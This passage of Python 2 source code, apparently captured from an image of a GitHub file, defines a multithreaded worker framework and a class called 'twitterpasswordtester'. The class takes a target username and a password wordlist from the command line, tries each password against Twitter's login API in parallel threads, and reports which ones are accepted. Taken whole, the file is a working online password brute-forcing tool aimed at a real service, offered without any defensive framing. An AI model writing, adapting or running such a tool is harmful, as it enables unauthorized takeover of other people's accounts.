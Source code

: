 ```python
            self.prerun()
        self.Q=Queue.Queue()
        self.DQ=Queue.Queue()
        ts=[]
        for x in range(self._numthreads):
            t=threading.Thread(target=self._handle_data)
            t.start()
            ts.append(t)

        at=threading.Thread(target=self._handle_result)
        at.start()

        try :
            for x in self.get_data():
                self.Q.put(x)
        except NotImplementedError, e:
            print e
        for x in range(self._numthreads):
            self.Q.put(None)
        for t in ts:
            t.join()
        self.DQ.put((None,None))
        at.join()
        if hasattr(self, "postrun"):
            return self.postrun()
        return None


class twitterpasswordtester(Threader):

    def get_data(self):
        data = open(sys.argv[2]).read()
        data = data.split('\n')
        self._usename = sys.argv[1]
        self.counter = 0
        return data

    def handle_data(self,p):
        print "in testAuth"
        u = self._usename
        x = tweethon.Api(username=u, password=p)
        x.SetCache(None)
        try:
            x.VerifyCredentials()
            results = "login: {0} Password: {1} accepted\n".format(u, p)
        except urllib2.HTTPError, e:
            results = "login: {0} Password: {1} failed: {2}\n".format(u, p, e)
        finally:
            del x
            return results

    def handle_result(self, data, result):
        print result
        print self.counter 
        self.counter += 1
        self.res.append((data,result))
    def prerun(self):
        self.res=[]
    def postrun(self):
        return self.res


z = twitterpasswordtester(10)
```